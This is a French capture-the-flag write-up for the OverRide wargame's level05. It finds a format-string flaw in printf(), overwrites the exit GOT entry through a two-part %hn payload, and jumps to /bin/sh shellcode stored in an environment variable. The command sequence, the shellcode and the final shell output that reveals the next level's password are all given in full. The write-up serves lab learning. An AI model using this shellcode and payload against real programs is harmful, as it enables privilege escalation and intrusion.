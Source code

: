 #### Etape 1 : Décompilation 
```bash
level05@OverRide:~$ ./level05 
dasdas
dasdas
level05@OverRide:~$ ./level05 
AAAAAAA
aaaaaaa
level05@OverRide:~$ ./level05 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaalevel05@OverRide:~$level05@OverRide:~$ ./level05 
1111111112222222
1111111112222222
```

Le binaire prend une chaine de caractere et la convertie en minuscule.

#### Etape 2 : Recherche de faille

On peut voir que le binaire utilise la fonction fgets() pour lire l'input de l'utilisateur. elle limite l'input a 100 caractere.

On voit auusi une fonction printf qui prend directement une variable de l'utilisateur. Qui comme vu dans les exercices précédents peut être une faille de sécurité.

```c
printf((char *)local_78);
```

```bash
Un code tel que printf(foo); indique souvent un bogue, car foo peut contenir un caractère « % ». Si foo vient d'une saisie non sécurisée, il peut contenir %n, ce qui autorise printf() à écrire dans la mémoire, et crée une faille de sécurité.
```



#### Etape 3 : Idée
On decide d'utiliser la faille printf pour écrire dans la mémoire et modifier l'adresse de retour de la fonction exit.

Premierement on recherche l'offset du buffer dans la pile.

```bash
level05@OverRide:~$ echo $(python -c 'print "AAAA" + "%x " * 30' ) > /tmp/testoffset
level05@OverRide:~$ (cat /tmp/testoffset -) |./level05 
aaaa64 f7fcfac0 f7ec3af9 ffffd4ef ffffd4ee 0 ffffffff ffffd574 f7fdb000 61616161 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
```
On peut voir que l'offset est de 10.

On sait donc que l'on pourra reecrire le shellcode a la position 10.

Pour l'exploiter on va stocker un SHELLCODE dans une variable d'environnement et trouver sa position dans la pile.
pour cela on va utiliser un programme qui va afficher l'adresse de la variable SHELLCODE (voir getenv.c)
et stoker le Shellcode suivan dans la variable SHELLCODE.

```bash
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

```bash
evel05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90" * 500 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
level05@OverRide:~$ gcc -m32 -o /tmp/getenv /tmp/getenv.c
level05@OverRide:~$ cd /tmp
level05@OverRide:/tmp$ ./getenv 
Adresse de SHELLCODE: 0xffffd70b
```
Nous retrouvons l'adresse de notre SHELLCODE dans la pile : ici 0xffffd70b
0xffffd70b en decimal est 4294956811

Ensuite on va chercher l'adresse de la fonction exit dans la pile ainsi que l'adresse du system.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) disass main
Dump of assembler code for function main:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
[...]
---Type <return> to continue, or q <return> to quit---
   0x08048513 <+207>:   call   0x8048370 <exit@plt>
(gdb) x/i 0x8048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
```
nous avons donc l'adresse de exit : 0x80497e0 et de system : 0xf7e6aed0

Dans l'idee nous voulons ecrire l'exploit suivant :

```bash
echo $(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%4294956811x%10$hn"') > /tmp/testlv
```
mais nous avons un probleme, le nombre de caractere a ecrire est trop grand pour etre ecrit en une seule fois.
Nous allons donc devoir ecrire en deux fois.

```bash
0xffffd70b = 4294956811
ffff = 65535
d70b = 55051
```
Donc en little endian le SHELLCODE sera ecrit en deux fois : 55051 puis 65535
Et nous devons stocker dans l'espace correcte entre les deux ecritures le nombre de caractere ecrits.
donc 65535 - 55051 = 10484
mais vu que nous avons 8 bytes ecris avant le SHELLCODE, nous devons commencer à 55043 puis 10484

```bash
level05@OverRide:~$ echo $(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55043x%10$hn"+ "%10484x%11$hn"') > /tmp/testlv
```

Vu que nous avons diviser notre adresse en deux, nous avions besoin de deux %hn pour ecrire l'adresse complete aux 10 et 11 eme positions.

#### Etape 4 : Execution 

```bash
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90" * 500 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
level05@OverRide:~$ gcc -m32 -o /tmp/getenv /tmp/getenv.c
level05@OverRide:~$ cd /tmp
level05@OverRide:/tmp$ ./getenv 
Adresse de SHELLCODE: 0xffffd70b
level05@OverRide:/tmp$ cd 
level05@OverRide:~$ echo $(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55043x%10$hn"+ "%10484x%11$hn"') > /tmp/testlv
5
level05@OverRide:~$ (cat /tmp/testlv5 -) |./level05 
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```



